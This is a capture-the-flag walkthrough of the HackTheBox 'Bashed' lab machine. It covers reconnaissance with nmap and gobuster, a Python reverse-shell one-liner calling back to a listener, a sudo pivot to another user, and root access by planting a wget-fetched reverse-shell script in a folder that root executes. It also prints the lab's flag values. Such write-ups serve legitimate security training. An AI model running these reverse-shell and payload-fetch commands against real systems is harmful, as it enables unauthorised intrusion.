







# HackTheBox **Bashed**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```



We find port 80 open.Nothing intresting on index.html other then the "phpbash" reference.
Using gobuster we find an intresting directory, "dev".

```bash
gobuster dir -u http://10.129.11.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 16 -x html,php
```



Checking the directory out we find the php file for phpbash.



This takes as to a an online terminal.



I am a creature of habit, thus I ll make a reverse shell.

On host:
```bash
rlwrap nc -lnvp 6666
```

On target:
```bash
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.59",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

I ll also upgrade the shell,on host:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Done now we got a reverse shell.



I'll move to the "/home" directory and get the user flag.

```bash
cd /home
cd arrexel
cat user.txt
```

## User Flag : 977faa50a3d0102a8ab932418a00b151

Checking commands we can execute with sudo we see this:

```bash
sudo -l
```


So let's spawn a shell as script manager.

```bash
sudo -u scriptmanager /bin/bash
```


It worked.Now that we are done with lateral movement, let's find a way for privelege escalation.

In the "/" directory something stands out, the directory "scripts".Looking inside it we find 2 files.

```bash 
cd /
ls 
cd /scripts
ls -la
cat test.py
```



We see the test.py script does not have SUID flag or belongs to the root user but it should write on a file owned by root.Using pspy we can see that all the python scripts in the folder scripts are executed as root.So I'll upload a reverse shell script in python and wait for 5 minutes

### On host
```bash
    python3 -m http.server -b 10.10.14.59 80
```

### On target
```bash
   wget http://10.10.14.59:80/reverseshell.py  
```



We got root! 

## Root Flag : 5cca1a72dd618097ef8b40dcab92ad46

